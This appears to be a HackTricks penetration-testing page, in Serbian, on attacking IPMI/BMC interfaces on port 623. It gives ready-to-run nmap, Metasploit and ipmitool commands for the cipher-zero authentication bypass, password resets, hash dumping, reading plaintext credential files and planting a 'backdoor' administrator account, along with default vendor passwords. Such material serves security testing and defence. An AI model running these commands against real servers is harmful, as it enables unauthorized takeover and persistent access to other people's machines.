 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

### **Pregled IPMI-ja**

**[Inteligentni interfejs za upravljanje platformom (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** nudi standardizovan pristup za daljinsko upravljanje i nadgledanje računarskih sistema, nezavisno od operativnog sistema ili stanja napajanja. Ova tehnologija omogućava sistem administratorima da upravljaju sistemima daljinski, čak i kada su isključeni ili neodzivni, i posebno je korisna za:

- Konfiguracije pre pokretanja operativnog sistema
- Upravljanje isključivanjem
- Obnova nakon neuspeha sistema

IPMI je sposoban da nadgleda temperature, napon, brzinu ventilatora i napajanja, kao i da pruža informacije o inventaru, pregleda logove hardvera i šalje upozorenja putem SNMP-a. Za njegov rad su neophodni izvor napajanja i LAN veza.

Od svog predstavljanja od strane Intela 1998. godine, IPMI je podržan od strane brojnih prodavaca, poboljšavajući mogućnosti daljinskog upravljanja, posebno sa podrškom verzije 2.0 za serijski preko LAN-a. Ključni komponenti uključuju:

- **Baseboard Management Controller (BMC):** Glavni mikrokontroler za IPMI operacije.
- **Komunikacione magistrale i interfejsi:** Za internu i eksternu komunikaciju, uključujući ICMB, IPMB i različite interfejse za lokalne i mrežne veze.
- **IPMI memorija:** Za skladištenje logova i podataka.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Podrazumevani port**: 623/UDP/TCP (Obično se koristi UDP, ali može se koristiti i TCP)

## Enumeracija

### Otkrivanje
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Možete **identifikovati** verziju koristeći:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Ranjivosti

U domenu IPMI 2.0, otkrivena je značajna sigurnosna propustljivost od strane Dana Farmera, koja otkriva ranjivost putem **šifarskog tipa 0**. Ova ranjivost, detaljno dokumentovana na [Dan Farmerovom istraživanju](http://fish2.com/ipmi/cipherzero.html), omogućava neovlašćeni pristup sa bilo kojom lozinkom, pod uslovom da je ciljani korisnik validan. Ova slabost je pronađena na različitim BMC-ovima od proizvođača kao što su HP, Dell i Supermicro, što ukazuje na široko rasprostranjenu problematiku unutar svih implementacija IPMI 2.0.

### **IPMI Bypass autentifikacije putem šifre 0**

Da biste otkrili ovu manu, možete koristiti sledeći Metasploit pomoćni skener:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Eksploatacija ove greške je moguća pomoću `ipmitool`-a, kao što je prikazano u nastavku, omogućavajući listanje i izmenu korisničkih lozinki:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Autentifikacija - Preuzimanje udaljenog heša lozinke**

Ova ranjivost omogućava preuzimanje soljenih heširanih lozinki (MD5 i SHA1) za bilo koji postojeći korisnički nalog. Da biste testirali ovu ranjivost, Metasploit nudi modul:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Anonimna Autentifikacija**

Podrazumevana konfiguracija u mnogim BMC-ovima omogućava "anonimni" pristup, koji se karakteriše praznim korisničkim imenom i lozinkom. Ova konfiguracija može biti iskorišćena za resetovanje lozinki korisničkih naloga koji imaju imena koristeći `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI lozinke u čistom tekstu**

Kritičan dizajnerski izbor u IPMI 2.0 zahteva skladištenje lozinki u čistom tekstu unutar BMC-a u svrhu autentifikacije. Supermicro-ovo skladištenje ovih lozinki na lokacijama poput `/nv/PSBlock` ili `/nv/PSStore` izaziva značajne sigurnosne probleme:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerabilnost**

Uključivanje Supermicro UPnP SSDP slušača u IPMI firmware, posebno na UDP portu 1900, predstavlja ozbiljan sigurnosni rizik. Ranjivosti u Intel SDK za UPnP uređaje verzije 1.3.1, kako je detaljno opisano u [Rapid7-ovom otkrivanju](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), omogućavaju pristup root nalogu BMC-a:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP nasumično generiše podrazumevanu lozinku** za svoj proizvod **Integrated Lights Out (iLO)** tokom proizvodnje. Ova praksa se razlikuje od drugih proizvođača koji obično koriste **statične podrazumevane akreditive**. Pregled podrazumevanih korisničkih imena i lozinki za različite proizvode je sledeći:

- **HP Integrated Lights Out (iLO)** koristi **fabrički generisanu nisku od 8 karaktera** kao podrazumevanu lozinku, što pokazuje veći nivo bezbednosti.
- Proizvodi poput **Dell-ovog iDRAC-a, IBM-ovog IMM-a** i **Fujitsu-ovog Integrated Remote Management Controller-a** koriste lako pogodne lozinke poput "calvin", "PASSW0RD" (sa nulom) i "admin" redom.
- Slično tome, **Supermicro IPMI (2.0), Oracle/Sun ILOM** i **ASUS iKVM BMC** takođe koriste jednostavne podrazumevane akreditive, pri čemu su njihove lozinke "ADMIN", "changeme" i "admin" redom.


## Pristupanje Hostu putem BMC-a

Administrativni pristup Baseboard Management Controller-u (BMC) otvara različite puteve za pristup operativnom sistemu hosta. Jednostavan pristup uključuje iskorišćavanje funkcionalnosti BMC tastature, video zapisa i miša (KVM). To se može postići ili ponovnim pokretanjem hosta do root ljuske putem GRUB-a (korišćenjem `init=/bin/sh`) ili pokretanjem sa virtuelnog CD-ROM-a postavljenog kao spasilački disk. Ove metode omogućavaju direktno manipulisanje diskom hosta, uključujući umetanje zadnjih vrata, izvlačenje podataka ili bilo koje neophodne radnje za procenu bezbednosti. Međutim, to zahteva ponovno pokretanje hosta, što je značajan nedostatak. Bez ponovnog pokretanja, pristupanje pokrenutom hostu je složenije i razlikuje se u zavisnosti od konfiguracije hosta. Ako je fizička ili serijska konzola hosta ostala prijavljena, lako je preuzeti kontrolu putem BMC-ovih KVM ili serijsko-preko-LAN (sol) funkcionalnosti putem `ipmitool`-a. Istraživanje iskorišćavanja deljenih hardverskih resursa, poput i2c magistrale i Super I/O čipa, je oblast koja zahteva dalje istraživanje.

## Uvođenje zadnjih vrata u BMC sa hosta

Nakon kompromitovanja hosta opremljenog BMC-om, **lokalno BMC sučelje može se iskoristiti za umetanje korisničkog naloga zadnjih vrata**, stvarajući trajno prisustvo na serveru. Ovaj napad zahteva prisustvo **`ipmitool`-a** na kompromitovanom hostu i aktivaciju podrške za BMC drajvere. Sledeće komande ilustruju kako se novi korisnički nalog može ubaciti u BMC koristeći lokalno sučelje hosta, što zaobilazi potrebu za autentifikacijom. Ova tehnika se može primeniti na širok spektar operativnih sistema, uključujući Linux, Windows, BSD i čak DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## Reference

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
